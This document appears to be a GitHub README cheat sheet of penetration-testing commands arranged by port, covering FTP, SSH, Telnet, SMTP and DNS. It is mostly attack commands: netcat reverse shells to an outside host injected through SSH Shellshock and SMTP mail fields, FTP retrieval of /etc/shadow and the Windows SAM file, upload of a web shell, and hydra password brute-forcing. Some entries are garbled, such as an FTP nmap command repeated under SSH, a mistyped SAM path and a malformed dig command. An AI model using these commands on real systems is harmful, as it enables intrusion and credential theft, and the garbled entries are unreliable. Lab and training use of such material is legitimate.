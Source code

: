 > Adding constantly content, depending on free time :)

> Instead of writing a list of tasks to perform on each port/service or using old tools, I will write the full command with arguments to enumerate and (possibly) exploit it with newest tools. 
>``$ip`` refers to simply the variable assigned with ``export ip=10.10.10.10`` 
> Remember to **switch** between wordlists if one just doesn't give out results



General
------------
**Enumeration**
  * Banner: 
    * `nc -vn $ip [PORT]`
  ##### Exploitation
  * Reuse credentials from other local services
  * ` searchsploit [SERVICE NAME]+[VERSION]`
  
## Common TCP ports 
-------------
### 21 (FTP)
**Enumeration**
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
** Exploitation**
  * Connect and try to download/upload files (even if you can't ``cd`` into that directory): 
    * ``get /etc/shadow `` 
    * ``get C:\\Windows\\system3\\config\\SAM`` 
    * ``put shell.aspx``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ftp -t 1``

### 22 (SSH)
**Enumeration**
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
**Exploitation**
  * Reuse private key from other machines
  * Shellshock:
    * ``ssh root@$ip 'nc 1.1.1.1 80 -e /bin/bash'``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh``
    
### 23 (Telnet)
**Exploitation**
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip telnet -t 1``
    
### 25 (SMTP)
**Enumeration**
  * Enum users
    * `smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $ip`
**Exploitation**
  * Send mail with malicious parameters: 
    * ``ehlo server.com ``
    ``mail from: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``rcpt to: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``data
    Subject: nc 1.1.1.1 80 -e /bin/bash ``
    
 ### 53 (DNS)
**Enumeration**
  * Zone Transfer:
    ``dig @axfr @$ip server.com +nocookie``
